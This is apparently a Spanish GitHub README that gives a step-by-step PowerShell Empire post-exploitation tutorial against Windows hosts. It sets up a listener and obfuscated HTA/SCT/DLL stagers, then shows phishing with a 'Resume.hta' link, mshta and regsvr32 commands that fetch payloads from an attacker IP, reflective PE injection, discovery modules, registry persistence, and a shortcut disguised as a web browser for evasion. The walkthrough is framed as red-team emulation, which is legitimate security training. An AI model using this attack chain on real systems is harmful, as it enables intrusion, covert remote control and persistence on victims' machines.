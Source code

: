 # Powershell Empire: Post-Explotación en redes Windows con Kali linux

-Powershell Empire, es un framework de post-explotación basado en el despliegue de agentes que se ejecutan en las máquinas comprometidas y son gestionados desde una consola bajo el control del pentester.
-Consiste en la integración de los frameworks conocidos de pentesting con powershell.
-Se centra únicamente en Python con comunicaciones criptográficamente seguras con el complemento de una arquitectura flexible.

# Componentes de PowerShell Empire

1.Listeners: Es un proceso que escucha una conexión desde la máquina que estamos atacando. Esto ayuda a Empire a enviar el “paquete” a la computadora del atacante.
2.Agentes: Es un programa que mantiene una conexión entre tu computadora y el host comprometido.
3.Stagers: Es un fragmento de código que permite que nuestro código malicioso se ejecute a través del agente en el host comprometido.
4.Módulos: Esto es lo que ejecuta nuestros comandos maliciosos, que pueden recopilar credenciales y escalar nuestros privilegios como se mencionó anteriormente.

## Prerequisitos
1. Considerar los S.O compatibles que han sido testeados para el uso de Empire:
-Kali Linux Rolling (En nuestro caso estaremos utilizando este S.O)
-Ubuntu 20.04
-Debian 10

> Verificar con:
> uname -r

2. Actualizar todas las dependencias y paquetes del S.O
> sudo apt update 

3. Tener instalado Python como mínimo la versión 3.8 (Se recomiendo la v3.8 o v3.9)
> Verificar con:
> python --version

4. Para los S.O Kali instalar la versión utilizando sudo (las nuevas versiones de Kali requieren correr “sudo” antes de empezar Empire.


## Instalación Empire
1. Instalar la ultima versión de Empire corriendo lo siguiente:
> sudo apt install powershell-empire

El resultado debe ser el siguiente:
![image](https://i.imgur.com/DAawQol.jpg)

## Inicializar Empire
1. Inicializar servidor empire
> sudo powershell-empire server

![image](https://i.imgur.com/SuNG6Of.jpg)

2. Inicializar cliente empire
> sudo powershell-empire client

![image](https://i.imgur.com/X2cQsBp.jpg)

## Instalación Starkiller
1. Instalar Starkiller para tener GUI
> cd /opt
> sudo wget https://github.com/BC-SECURITY/Starkiller/releases/download/v1.0.0/starkiller-1.0.0.AppImage
> sudo chmod +x starkiller-1.0.0.AppImage

![image](https://i.imgur.com/rFlVBTU.jpg)

## Inicializar Starkiller (GUI)
1. Iniciar Starkiller
> cd /opt/starkiller
> ./starkiller-1.0.0.AppImage

![image](https://i.imgur.com/UfK06Mk.jpg)

## Creación de componentes PowerShell Empire
1.Crear Listener
> Type: http
> Name: http
> Host: http://10.0.0.187
> Port: 80
> BindIP: 10.0.0.187
> Jitter: 0.5
> StagingKey: empireadmin

![image](https://i.imgur.com/uqNHCBy.jpg)

2.Crear Stagers
-Generar Stager HTA:
Type: windows/hta
> Listner: http
> Base64: True
> Language: powershell
> Outfile: /tmp/Resume.hta
-Generar Stager SCT:
> Type: windows/launcher_sct
> Listner: http
> Base64: True
> Language: powershell
-Generar Stager DLL:
> Type: windows/dll
> Listner: http
> Arch: x86
> Language: powershell
> OutFile: /tmp/launcher.dll
> Obfuscate: True
> ObfuscateCommand: Token\String\1

Resultado de la creación de Stagers:
![image](https://i.imgur.com/htm5bqB.jpg)

3.Descargar Stagers en /tmp y usarlos con SimpleHTTPServer
> cd /tmp
> python -m SimpleHTTPServer 8080

![image](https://i.imgur.com/JurGJ9P.jpg)

##Emulación de TTP's
1. Acceso Inicial
Enviamos un link de descarga o mail http://192.168.126.129/Resume.hta

2. Ejecución
-Ejecutar Resume.hta
> mshta http://10.0.0.187:8080/Resume.hta

![image](https://i.imgur.com/lZCeoZq.jpg)

-Migrar a otro proceso con reflective PE Injection
> ver procesos: ps
> usemodule code_execution/invoke_reflectivepeinjection
> set ProcID: <processID>
> set DllPath: /tmp/launcher.dll

![image](https://i.imgur.com/Ap8ghR1.jpg)
  
3. Agente Activo
![image](https://i.imgur.com/9Q5JA25.jpg)
  
4. Descubrimiento
> whoami
> usemodule situational_awareness/host/antivirusproduct 
> usemodule situational_awareness/host/get_uaclevel 
> usemodule situational_awareness/host/winenum

![image](https://i.imgur.com/8DjskSO.jpg)
5. Persistencia
> usemodule persistence/userland/registry
> set Listener: http

![image](https://i.imgur.com/loz2sRu.jpg)

6. Evasión de defensa
-Ejecución con regsvr32 y scripting. Se crea un acceso directo enmascarango un navegador web con target:
> C:\Windows\System32\cmd.exe /c "C:\Windows\System32\regsvr32.exe /s /n /u /i:http:\192.168.126.129:8080\launcher.sct scrobj.dll"

![image](https://i.imgur.com/maJN0cy.jpg)

#### De lo presentado anteriormente se puede apreciar que el malware (.exe/dll/hta) permite construir cualquier ataque ya que se tiene acceso a win32.
